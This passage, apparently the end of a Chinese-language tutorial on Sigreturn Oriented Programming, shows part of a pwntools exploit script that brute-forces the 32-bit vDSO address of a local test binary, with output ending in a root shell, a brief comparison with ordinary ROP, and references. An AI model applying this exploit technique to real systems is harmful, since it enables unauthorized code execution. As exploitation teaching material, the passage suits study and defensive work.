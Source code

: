 ```python
    payload += p32(ret_addr) + str(frame)
    p.recvuntil("input something you want: \n")
    p.sendline(payload)
    sleep(1)
    p.sendline("echo pwned!")
    r = p.recvuntil("pwned!")
    if r != "pwned!":
        raise Exception("Failed!")
    return
    
if __name__ == "__main__":
    global p, vdso_addr
    i = 1
    while True:
        print "\nTry %d" % i
        try:
            main()
        except Exception as e:
            #print e
            p.close()
            i += 1
            continue
        print "vdso_addr: " + hex(vdso_addr)
        p.interactive()
        break
```

因为32位的vdso几分钟就能爆破成功，很容易得到一个shell。
```shell
......
Try 165
[+] Starting local process './srop_test': Done
vdso_addr: 0xf7734000
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
$
```
个人觉得这种方法比一般的rop还是好用多了。一般rop还得泄露libc，但是srop没有这么多限制。在条件允许时，个人倾向于用srop。

## Reference
[Sigreturn Oriented Programming](https://www.slideshare.net/AngelBoy1/sigreturn-ori)
[关于ELF的辅助向量](http://www.tuicool.com/articles/MNRJVj)
[Sigreturn Oriented Programming is a real Threat](http://subs.emis.de/LNI/Proceedings/Proceedings259/2077.pdf)

